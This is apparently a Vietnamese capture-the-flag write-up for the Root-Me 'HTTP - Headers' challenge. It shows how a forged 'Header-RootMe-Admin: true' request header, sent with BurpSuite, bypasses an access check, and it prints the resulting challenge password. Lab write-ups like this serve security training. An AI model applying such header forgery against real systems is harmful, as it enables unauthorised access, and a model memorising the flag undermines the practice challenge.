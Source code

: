 # HTTP - Headers

## Solution

- Khi sử dụng Live HTTP Headers, tìm thấy tham số này trong response từ máy chủ:

```
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 29 Apr 2015 02:55:54 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
{{Header-RootMe-Admin: none}}
Content-Encoding: gzip
```

- Sau đó sử dụng BurpSuite, gửi lại request HTTP như sau:

```
GET /web-serveur/ch5/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.6.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.root-me.org/en/Challenges/Web-Server/HTTP-Headers
Connection: keep-alive
Header-RootMe-Admin: true
Content-Length: 2
```

- Cuối cùng kết quả là:

```
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 29 Apr 2015 03:19:29 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Vary: Accept-Encoding
Header-RootMe-Admin: none
Content-Length: 366

<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='http://www.root-me.org/spip.php?page=externe_header'></iframe>
<p>Content is not the only part of an HTTP response!</p>
<p>You dit it ! You can validate the challenge with the password HeadersMayBeUseful</p></body>
</html>
```